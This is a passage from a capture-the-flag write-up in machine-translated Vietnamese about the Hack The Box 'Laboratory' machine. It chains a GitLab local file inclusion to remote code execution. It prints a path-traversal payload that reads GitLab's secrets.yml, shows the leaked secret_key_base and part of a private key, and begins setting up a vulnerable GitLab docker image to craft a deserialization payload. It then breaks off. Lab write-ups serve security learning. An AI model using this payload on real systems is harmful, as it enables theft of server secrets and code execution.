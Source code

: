 ## LFI -> RCE
Báo cáo [HackerOne](https://hackerone.com/reports/827052) cũng cho thấy cách chúng tôi có thể tận dụng LFI để Thực thi mã từ xa khai thác lỗ hổng Deserialization bên trong cookie `Experimentation_subject_id`

Bước 1: Nắm bắt bí mật.yml:

Để quản lý cuộc tấn công RCE, trước tiên chúng ta cần lấy tệp `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` mà chúng ta có thể thực hiện bằng cách sao chép cuộc tấn công LFI với tải trọng sau:

```powershell
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)
```
```powershell
cfx:  ~/Documents/htb/laboratory
→ cat secrets.yml
# This file is managed by gitlab-ctl. Manual changes will be
# erased! To change the contents below, edit /etc/gitlab/gitlab.rb
# and run `sudo gitlab-ctl reconfigure`.

---
production:
  db_key_base: 627773a77f567a5853a5c6652018f3f6e41d04aa53ed1e0df33c66b04ef0c38b88f402e0e73ba7676e93f1e54e425f74d59528fb35b170a1b9d5ce620bc11838
  secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
  otp_key_base: db3432d6fa4c43e68bf7024f3c92fea4eeea1f6be1e6ebd6bb6e40e930f0933068810311dc9f0ec78196faa69e0aac01171d62f4e225d61e0b84263903fd06af
  openid_connect_signing_key: |
    -----BEGIN RSA PRIVATE KEY-----
    MIIJKQIBAAKCAgEA5LQnENotwu/SUAshZ9vacrnVeYXrYPJoxkaRc2Q3JpbRcZTu
    YxMJm2+5ZDzaDu5T4xLbcM0BshgOM8N3gMcogz0KUmMD3OGLt90vNBq8Wo/9cSyV
    RnBSnbCl0EzpFeeMBymR8aBm8sRpy7+n9VRawmjX9os25CmBBJB93NnZj8QFJxPt
[..SNIP..]
```

Giá trị `secret_key_base` là giá trị mà chúng tôi quan tâm để thực hiện cuộc tấn công này

```powershell
secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
```

Bước 2: Nhân rộng Môi trường GitLab CE 12.8.1\

Tiếp theo, để xây dựng tải trọng Deserialization, chúng ta cần tạo ra một bản sao của cá thể GitLab dễ bị tấn công. Chúng tôi sẽ sử dụng docker để làm như vậy

+ Cài đặt docker: `sudo apt install docker.io`
+ Kéo hình ảnh GitLab dễ bị tổn thương: `docker pull gitlab/gitlab-ce:12.8.1-ce.0` 
+ Đang chạy hình ảnh Docker: `docker run gitlab/gitlab-ce:12.8.1-ce.0`

Sẽ mất vài phút để khởi động vùng chứa, trong một thiết bị đầu cuối mới, chúng ta có thể kiểm tra quy trình docker và đồng thời lấy shell trên đó
